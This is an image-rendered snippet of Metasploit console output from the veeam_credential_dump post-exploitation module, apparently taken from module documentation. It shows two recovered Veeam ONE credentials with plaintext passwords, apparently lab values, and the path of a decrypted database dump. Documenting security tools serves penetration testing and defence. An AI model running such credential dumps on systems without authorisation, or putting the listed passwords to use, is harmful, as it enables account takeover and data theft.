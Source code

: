 ```
[*] 2 rows written (0 blank rows withheld)
[+] 2 unique VOM ID records recovered
[+] Recovered Credential: VeeamONE Credential
[+]     L: sa
[+]     P: AintEZB3ingGr33n
[+] Recovered Credential: VeeamONE Credential
[+]     L: CESIUM137\a.a.ron
[+]     P: 1n$uB0rdin@te&CHuRli$h
[+] Decrypted Veeam ONE Monitor Database Dump: /root/.msf4/loot/20221209090835_default_192.168.101.143_veeam_vom_dec_424908.txt
[*] Post module execution completed
msf6 post(windows/gather/credentials/veeam_credential_dump) >
```
